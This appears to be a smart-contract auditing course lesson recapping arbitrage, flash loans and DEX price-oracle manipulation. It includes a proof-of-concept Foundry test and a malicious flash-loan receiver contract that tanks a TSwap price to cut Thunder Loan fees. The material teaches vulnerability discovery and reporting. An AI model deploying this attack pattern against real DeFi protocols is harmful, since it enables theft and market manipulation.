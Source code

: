 ```yaml
---
title: Oracle Manipulation Recap
---
```


_Follow along with the video lesson:_

---

### Oracle Manipulation Recap

Alright! Let's review everything up to this point, starting from the top.

### Arbitrage

Arbitrage is the process by which a profit can be made by identifying a price discrepancy of an asset across two exchanges and buying from one then selling on the other. Through this process the asset price becomes normalized across listings.

This is one of the primary use cases of flash loans.

::image{src='/security-section-6/41-oracle-manipulation-recap/oracle-manipulation-recap1.png' style='width: 100%; height: auto;'}

### Flash Loans

A Flash Loan is a loan which lasts for a single transaction. It allows any user to borrow a large number of funds without posting collateral by paying a small fee.

The catch, of course, is that the loan must be repaid in the same transaction in which it is borrowed. If it isn't, the transaction will revert.

The fees collected from flash loans serve as incentive for those supplying liquidity to the flash loan protocol.

In the case of a recognized price discrepancy, this means any user would be able to take greater advantage of the arbitrage opportunity and the greatest profits aren't reserved for whales or those with the most money.

::image{src='/security-section-6/41-oracle-manipulation-recap/oracle-manipulation-recap2.png' style='width: 100%; height: auto;'}

### Oracle Manipulation

Finally, we covered how flash loans and the impact they have on Dex prices of assets can actually be a vulnerability to protocols relying on those Dexs as price oracles.

Flash Loans have the potential of drastically altering the ratio based pricing of asset pairs on Dexs by affording a user the ability to swap huge numbers of a token and tanking it's price - for that transaction.

The practical offshoot of this is that any protocol that reads from that Dex is going to trust this inaccurate, temporarly price, leaving itself open to exploitation or unfavorable transactions.

### Thunder Loan Oracle Manipulation

We illustrated that the Thunder Loan protocol was vulnerable to this exact exploit, and we did so with a _very_ thorough proof of code.

It was shown that by flash loaning and swapping on TSwap, an attacker could drastically reduce the cost of the fees to be paid, resulting in a medium severity finding!

<details>
<summary>Oracle Manipulation PoC</summary>

**Proof of Concept:** The following all happens in 1 transaction.

1. User takes a flash loan from `ThunderLoan` for 1000 `tokenA`. They are charged the original fee `fee1`. During the flash loan, they do the following:
   1. User sells 1000 `tokenA`, tanking the price.
   2. Instead of repaying right away, the user takes out another flash loan for another 1000 `tokenA`.
      1. Due to the fact that the way `ThunderLoan` calculates price based on the `TSwapPool` this second flash loan is substantially cheaper.

```javascript
    function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
@>      return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
```

    3. The user then repays the first flash loan, and then repays the second flash loan.

Add the following to ThunderLoanTest.t.sol.

<details>
<summary>Proof of Code:</summary>

```js
function testOracleManipulation() public {
    // 1. Setup contracts
    thunderLoan = new ThunderLoan();
    tokenA = new ERC20Mock();
    proxy = new ERC1967Proxy(address(thunderLoan), "");
    BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));
    // Create a TSwap Dex between WETH/ TokenA and initialize Thunder Loan
    address tswapPool = pf.createPool(address(tokenA));
    thunderLoan = ThunderLoan(address(proxy));
    thunderLoan.initialize(address(pf));

    // 2. Fund TSwap
    vm.startPrank(liquidityProvider);
    tokenA.mint(liquidityProvider, 100e18);
    tokenA.approve(address(tswapPool), 100e18);
    weth.mint(liquidityProvider, 100e18);
    weth.approve(address(tswapPool), 100e18);
    BuffMockTSwap(tswapPool).deposit(100e18, 100e18, 100e18, block.timestamp);
    vm.stopPrank();

    // 3. Fund ThunderLoan
    vm.prank(thunderLoan.owner());
    thunderLoan.setAllowedToken(tokenA, true);
    vm.startPrank(liquidityProvider);
    tokenA.mint(liquidityProvider, 100e18);
    tokenA.approve(address(thunderLoan), 100e18);
    thunderLoan.deposit(tokenA, 100e18);
    vm.stopPrank();

    uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA, 100e18);
    console2.log("Normal Fee is:", normalFeeCost);

    // 4. Execute 2 Flash Loans
    uint256 amountToBorrow = 50e18;
    MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(
        address(tswapPool), address(thunderLoan), address(thunderLoan.getAssetFromToken(tokenA))
    );

    vm.startPrank(user);
    tokenA.mint(address(flr), 100e18);
    thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, ""); // the executeOperation function of flr will
        // actually call flashloan a second time.
    vm.stopPrank();

    uint256 attackFee = flr.feeOne() + flr.feeTwo();
    console2.log("Attack Fee is:", attackFee);
    assert(attackFee < normalFeeCost);
}

contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    address repayAddress;
    BuffMockTSwap tswapPool;
    bool attacked;
    uint256 public feeOne;
    uint256 public feeTwo;

    // 1. Swap TokenA borrowed for WETH
    // 2. Take out a second flash loan to compare fees
    constructor(address _tswapPool, address _thunderLoan, address _repayAddress) {
        tswapPool = BuffMockTSwap(_tswapPool);
        thunderLoan = ThunderLoan(_thunderLoan);
        repayAddress = _repayAddress;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address, /*initiator*/
        bytes calldata /*params*/
    )
        external
        returns (bool)
    {
        if (!attacked) {
            feeOne = fee;
            attacked = true;
            uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
            IERC20(token).approve(address(tswapPool), 50e18);
            // Tanks the price:
            tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought, block.timestamp);
            // Second Flash Loan!
            thunderLoan.flashloan(address(this), IERC20(token), amount, "");
            // We repay the flash loan via transfer since the repay function won't let us!
            IERC20(token).transfer(address(repayAddress), amount + fee);
        } else {
            // calculate the fee and repay
            feeTwo = fee;
            // We repay the flash loan via transfer since the repay function won't let us!
            IERC20(token).transfer(address(repayAddress), amount + fee);
        }
        return true;
    }
}
```

</details>

</details>


::image{src='/security-section-6/41-oracle-manipulation-recap/oracle-manipulation-recap3.png' style='width: 100%; height: auto;'}

This section was heavy. Now's a great time to take a break before continuing on.

We're nearly there.
